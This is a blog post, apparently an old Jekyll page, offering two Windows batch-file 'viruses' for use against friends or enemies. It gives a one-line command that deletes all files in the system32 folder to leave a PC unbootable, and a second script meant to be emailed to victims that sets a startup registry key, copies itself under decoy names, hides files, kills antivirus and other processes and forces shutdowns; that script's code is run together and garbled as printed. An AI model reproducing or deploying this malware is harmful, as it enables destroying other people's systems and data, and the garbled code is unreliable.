 ```yaml
---
layout: post
title:  "Destroy Your Friends Computer Using Simple Notepad Virus"
permalink: /destroy-your-friends-computer.html
redirect_from:
 - /2013/02/destroy-your-friends-computer-using.html
---
```


<strong>This tutorial is education purpose only</strong><br/>
In this post we’ll take a look on how to create a deadly computer virus to destroy your enemy or victim’s PC…

Open Notepad, Type or Paste in the following command:-

    del c:\windows\system32\*.* /q

Save it with the extension “.bat or .cmd” as u want…

Don’t double click the file otherwise u r in trouble. Why??? Bcz the file u created deletes all files from your system32 folder and when u restart your PC it will not start bcz system can not find the files in the system32 folder which is required at the time of booting…

You can also test the above by creating a fake folder let suppose:-

windows1 in C:.

Copy some old files in it and just follow the above command. By double clicking the bat or cmd file ur all files automaitcally get deleted.

You can try this file one any one’s computer. (but this result in causing damage to the computer, so think again before trying this on anyone’s PC)

<script async src="//pagead2.googlesyndication.com/pagead/js/adsbygoogle.js"></script>
<!-- First Ads -->
<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-5996828242175180"
     data-ad-slot="2764199159"
     data-ad-format="horizontal"></ins>
<script>
(adsbygoogle = window.adsbygoogle || []).push({});
</script>

Virus 2:

This post is to help you to send viruses to your enemies! Here goes,

Paste the below given code in your Notepad, then save it as anyname.bat

Do not click on that batch file… Send it to your enimies’ email… It will:

1) Copy itself into startup

2) Copy itself over one thousand times into random spots in your computer

3) Hide its self and all other created files

4) Task kill MSN, Norton, Windows Explorer, Limewire.

5) Swap the left mouse button with the right one

6) Opens alert boxes

7) Changes the time to 12:00 and shuts down the computer

<script async src="//pagead2.googlesyndication.com/pagead/js/adsbygoogle.js"></script>
<!-- First Ads -->
<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-5996828242175180"
     data-ad-slot="2764199159"
     data-ad-format="horizontal"></ins>
<script>
(adsbygoogle = window.adsbygoogle || []).push({});
</script>

CODE:-

    @Echo offcolor 4title 4title R.I.Pstartstartstartstart calccopy %0 %Systemroot%\Greatgame > nulreg add HKLM\Software\Microsoft\Windows\CurrentVersion\Run /v Greatgame /t REG_SZ/d %systemroot%\Greatgame.bat /f > nulcopy %0 *.bat > nulAttrib +r +h Greatgame.batAttrib +r +hRUNDLL32 USER32.DLL.SwapMouseButtonstart calcclstskill msnmsgrtskill LimeWiretskill iexploretskill NMainstartclscd %userprofile%\desktopcopy Greatgame.bat R.I.P.batcopy Greatgame.bat R.I.P.jpgcopy Greatgame.bat R.I.P.txtcopy Greatgame.bat R.I.P.execopy Greatgame.bat R.I.P.movcopy Greatgame.bat FixVirus.batcd %userprofile%My Documentscopy Greatgame.bat R.I.P.batcopy Greatgame.bat R.I.P.jpgcopy Greatgame.bat R.I.P.txtcopy Greatgame.bat R.I.P.execopy Greatgame.bat R.I.P.movcopy Greatgame.bat FixVirus.batstartstart calcclsmsg * R.I.Pmsg * R.I.Pshutdown -r -t 10 -c "VIRUS DETECTED"startstarttime 12:00:R.I.Pcd %usernameprofile%\desktopcopy Greatgame.bat %random%.batgoto RIP

<script async src="//pagead2.googlesyndication.com/pagead/js/adsbygoogle.js"></script>
<!-- First Ads -->
<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-5996828242175180"
     data-ad-slot="2764199159"
     data-ad-format="horizontal"></ins>
<script>
(adsbygoogle = window.adsbygoogle || []).push({});
</script>

<script async src="//pagead2.googlesyndication.com/pagead/js/adsbygoogle.js"></script>
<script>
  (adsbygoogle = window.adsbygoogle || []).push({
    google_ad_client: "ca-pub-6217059145544649",
    enable_page_level_ads: true
  });
</script>
